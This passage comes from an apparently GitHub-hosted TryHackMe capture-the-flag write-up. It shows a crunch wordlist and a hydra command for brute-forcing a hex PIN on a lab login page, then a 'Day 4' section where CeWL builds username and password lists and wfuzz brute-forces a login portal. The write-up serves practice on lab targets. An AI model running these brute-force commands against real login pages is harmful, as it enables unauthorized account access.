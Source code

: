 view source code, i see it post the pin to login.php or you can catch the request with burpsuite

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eda3942b-76ce-44ce-b0b6-bc1cbdfae732)

generate the wordlist

```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

crack the pass with hydra

```
hydra -l '' -P 3digits.txt -f 10.10.125.189 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a9fcf49c-e97b-44a0-966c-12cb80f6ba6b)

enter the pin

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1dffafc4-68b0-47bc-ac3a-b7653f281989)

here you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/07b31e88-e14b-4709-b689-7eab2adc7417)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f77ccd4b-f02f-4711-873b-95e79c952e06)

## Day 4: Baby, it's CeWLd outside

check the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e6794c64-bd0d-4dc2-b29c-560ab0f1d4c7)

use the homepage to generate a wordlist that could potentially hold the key to the portal

```
cewl -d 2 -m 5 -w passwords.txt http://10.10.84.220 --with-numbers
```

use the Team Members page to generate a wordlist that could potentially contain the usernames of the employees

```
cewl -d 0 -m 5 -w usernames.txt http://10.10.84.220/team.php --lowercase
```

bruteforce the login portal using wfuzz

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.84.220/login.php -d "username=FUZZ&password=FUZ2Z"
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c94d347f-4630-4812-9f0c-96510ba00dea)

